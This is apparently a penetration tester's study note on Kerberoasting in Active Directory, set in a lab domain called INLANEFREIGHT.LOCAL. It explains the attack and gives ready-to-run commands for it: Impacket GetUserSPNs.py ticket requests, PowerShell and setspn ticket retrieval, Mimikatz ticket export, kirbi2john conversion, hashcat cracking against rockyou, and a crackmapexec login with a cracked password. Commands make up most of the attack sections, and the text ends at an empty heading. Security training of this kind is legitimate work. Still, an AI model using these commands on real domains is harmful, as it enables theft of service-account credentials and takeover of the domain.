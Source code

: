 # Kerberoasting

This attack targets Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as NT AUTHORITY\LOCAL SERVICE. Any domain user can request a Kerberos ticket for any service account in the same domain. This is also possible across forest trusts if authentication is permitted across the trust boundary. All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host.

Domain accounts running services are often local administrators, if not highly privileged domain accounts. Due to the distributed nature of systems, interacting services, and associated data transfers, service accounts may be granted administrator privileges on multiple servers across the enterprise. Many services require elevated privileges on various systems, so service accounts are often added to privileged groups, such as Domain Admins, either directly or via nested membership. Finding SPNs associated with highly privileged accounts in a Windows environment is very common. Retrieving a Kerberos ticket for an account with an SPN does not by itself allow you to execute commands in the context of this account. However, the ticket (TGS-REP) is encrypted with the service account’s NTLM hash, so the cleartext password can potentially be obtained by subjecting it to an offline brute-force attack with a tool such as Hashcat.

Service accounts are often configured with weak or reused password to simplify administration, and sometimes the password is the same as the username. If the password for a domain SQL Server service account is cracked, you are likely to find yourself as a local admin on multiple servers, if not Domain Admin. Even if cracking a ticket obtained via a Kerberoasting attack gives a low-privilege user account, we can use it to craft service tickets for the service specified in the SPN. For example, if the SPN is set to MSSQL/SRV01, we can access the MSSQL service as sysadmin, enable the xp_cmdshell extended procedure and gain code execution on the target SQL server.

Reference: https://youtu.be/PUyhlN-E5MU

## Kerberoasting - from Linux
Depending on your position in a network, this attack can be performed in multiple ways:
```
- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using runas /netonly.
```
Several tools can be utilized to perform the attack:
```
- Impacket’s GetUserSPNs.py from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, Rubeus, and other PowerShell scripts.
```
Obtaining a TGS ticket via Kerberoasting does not guarantee you a set of valid credentials, and the ticket must still be cracked offline with a tool such as Hashcat to obtain the cleartext password. TGS tickets take longer to crack than other formats such as NTLM hashes, so often, unless a weak password is set, it can be difficult or impossible to obtain the cleartext using a standard cracking rig.

***A prerequisite to performing Kerberoasting attacks is either domain user credentials (cleartext or just an NTLM hash if using Impacket), a shell in the context of a domain user, or account such as SYSTEM. Once we have this level of access, we can start. We must also know which host in the domain is a Domain Controller so we can query it.***

Impacket: https://github.com/SecureAuthCorp/impacket

1. We can start by just gathering a listing of SPNs in the domain. To do this, we will need **a set of valid domain credentials** and the **IP address of a Domain Controller**. We can authenticate to the Domain Controller with a **cleartext password**,** NT password hash**, or even a **Kerberos ticket**. For our purposes, we will use a password. Entering the below command will generate a credential prompt and then a nicely formatted listing of all SPN accounts. From the output below, we can see that several accounts are members of the Domain Admins group. If we can retrieve and crack one of these tickets, it could lead to domain compromise. It is always **worth investigating the group membership of all accounts** because we may find an account with an easy-to-crack ticket that can help us further our goal of moving laterally/vertically in the target domain.

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

- pull all TGS tickets for offline processing using the -request flag

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

- or request just the TGS ticket for a specific account
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

- use the -outputfile flag to write the TGS tickets to a file that can then be run using Hashcat
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

- Cracking the Ticket Offline with Hashcat
```
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```

- Testing Authentication against a Domain Controller
```
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## Kerberoasting - from Windows

> Before tools such as **Rubeus** existed, stealing or forging Kerberos tickets was a complex

***!!! the below method will likely not be our go-to every time. !!!***

**Enumerating SPNs with setspn.exe**

- We will focus on user accounts and ignore the computer accounts returned by the tool

```
setspn.exe -Q */*
```

- request TGS tickets for an account in the shell above and load them into memory. Once they are loaded into memory, we can extract them using Mimikatz
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
- The `Add-Type` cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
- `System.IdentityModel` is a namespace that contains different classes for building security token services
- We'll then use the `New-Object` cmdlet to create an instance of a .NET Framework object
- We'll use the `System.IdentityModel.Tokens` namespace with the `KerberosRequestorSecurityToken` class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

> We can also choose to retrieve all tickets using the same method, but this will also pull all computer accounts, so it is not optimal.

**Retrieving All Tickets Using setspn.exe**
```
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

Now that the tickets are loaded, we can use Mimikatz to extract the ticket(s) from memory.

**Extracting Tickets from Memory with Mimikatz**

```
mimikatz # base64 /out:true
mimikatz # kerberos::list /export
```

> If we do not specify the `base64 /out:true` command, Mimikatz will extract the tickets and write them to `.kirbi` files.

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

**Preparing the Base64 Blob for Cracking**
```
echo "<base64 blob>" |  tr -d \\n 
```
**Placing the Output into a File as .kirbi**
```
cat encoded_file | base64 -d > sqldev.kirbi
```
**Extracting the Kerberos Ticket using kirbi2john.py (This will create a file called crack_file. We then must modify the file a bit to be able to use Hashcat against the hash.)**
```
python2.7 kirbi2john.py sqldev.kirbi
```
**Modifiying crack_file for Hashcat**
```
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
**Cracking the Hash with Hashcat**
```
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

### Automated / Tool Based Route


